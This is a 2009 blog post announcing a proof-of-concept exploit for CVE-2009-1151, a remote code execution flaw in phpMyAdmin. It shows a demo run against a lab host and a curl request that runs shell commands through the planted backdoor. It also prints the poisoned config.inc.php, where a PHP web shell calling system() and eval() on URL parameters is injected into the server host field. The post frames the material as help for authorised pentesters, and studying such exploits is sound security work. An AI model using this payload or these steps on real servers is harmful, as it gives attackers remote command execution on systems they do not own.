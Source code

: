 ```yaml
---
title: CVE-2009-1151 phpMyAdmin Remote Code Execution Proof of Concept
author: pagvac
date: Tue, 09 Jun 2009 19:03:13 GMT
template: post.jade
category: fucked
---
```


I couldn't find any public PoC/exploit for this [phpMyAdmin](http://www.phpmyadmin.net/home_page/index.php) vulnerability, despite it being a serious bug affecting a popular open-source project. I think this vulnerability is a nice reminder that it's still possible to perform remote command execution these days without relying on SQL injection (i.e.: `xp_cmdshell`) or a memory corruption bug (i.e.: heap overflow).

> All the documentation you need is in the script comments. I recommend you to go through it, before you actually run the script.

After reading the public [advisory](http://www.phpmyadmin.net/home_page/security/PMASA-2009-3.php) and patched code, and playing around for a while, I managed to have a working PoC bash script. The script will allow you to remotely run shell commands and PHP code against vulnerable targets. Although in principle the vulnerability sounds quite simple, it actually took me a while to go from [advisory](http://www.phpmyadmin.net/home_page/security/PMASA-2009-3.php) to working attack code.

I'm providing the script with the hope that it will help pentesters and security researchers. Please only test the script against your own systems, or systems you have been given permission to pentest! Don't be evil, it's not worth it.

## Demo

```bash
$ ./phpMyAdminRCE.sh
usage: ./phpMyAdminRCE.sh <phpMyAdmin_base_URL>
i.e.: ./phpMyAdminRCE.sh http://target.tld/phpMyAdmin/
```

```bash
$ ./phpMyAdminRCE.sh http://172.16.211.10/phpMyAdmin-3.0.1.1/
[+] checking if phpMyAdmin exists on URL provided ...
[+] phpMyAdmin cookie and form token received successfully. Good!
[+] attempting to inject phpinfo() ...
[+] success! phpinfo() injected successfully! output saved on /tmp/phpMyAdminRCE.sh.9217.phpinfo.flag.html
[+] you *should* now be able to remotely run shell commands and PHP code using your browser. i.e.:
    http://172.16.211.10/phpMyAdmin-3.0.1.1//config/config.inc.php?c=ls+-l+/
    http://172.16.211.10/phpMyAdmin-3.0.1.1//config/config.inc.php?p=phpinfo();
    please send any feedback/improvements for this script to unknown.pentester<AT_sign_goes_here>gmail.com
```

```bash
$ curl "http://172.16.211.10/phpMyAdmin-3.0.1.1//config/config.inc.php?c=ls+-l+/"
total 96
drwxr-xr-x   2 root   root  4096 Mar 11 10:12 bin
drwxr-xr-x   3 root   root  4096 May  6 10:01 boot
lrwxrwxrwx   1 root   root    11 Oct 12  2008 cdrom -> media/cdrom
drwxr-xr-x  15 root   root 14300 Jun  5 09:02 dev
drwxr-xr-x 147 root   root 12288 Jun  5 09:02 etc
drwxr-xr-x   3 root   root  4096 Oct 18  2008 home
drwxr-xr-x   2 root   root  4096 Jul  2  2008 initrd
_[partial output removed for brevity reasons]_
```

Contents of `/config/config.inc.php` after our evil code has been successfully injected:

```php
<?php
/*
 * Generated configuration file
 * Generated by: phpMyAdmin 3.0.1.1 setup script by Michal ÄŒihaÅ™ <michal@cihar.com>
 * Version: $Id: setup.php 11423 2008-07-24 17:26:05Z lem9 $
 * Date: Tue, 09 Jun 2009 14:13:34 GMT
 */

/* Servers configuration */
$i = 0;

/* Server  (config:root) [1] */
$i++;
$cfg['Servers'][$i]['host']=''; if($_GET['c']){echo
'';system($_GET['c']);echo '';}if($_GET['p']){echo
'';eval($_GET['p']);echo '';};//'] = 'localhost';
$cfg['Servers'][$i]['extension'] = 'mysqli';
$cfg['Servers'][$i]['connect_type'] = 'tcp';
$cfg['Servers'][$i]['compress'] = false;
$cfg['Servers'][$i]['auth_type'] = 'config';
$cfg['Servers'][$i]['user'] = 'root';

/* End of servers configuration */

?>
```

## Thanks

I'd like to thank [Greg Ose](http://labs.neohapsis.com/2009/04/06/about-cve-2009-1151/) for discovering such a cool vuln and doing a nice writeup about the technical details! Also big thanks to [str0ke](http://www.milw0rm.com/) for testing this PoC script and providing such useful feedback!
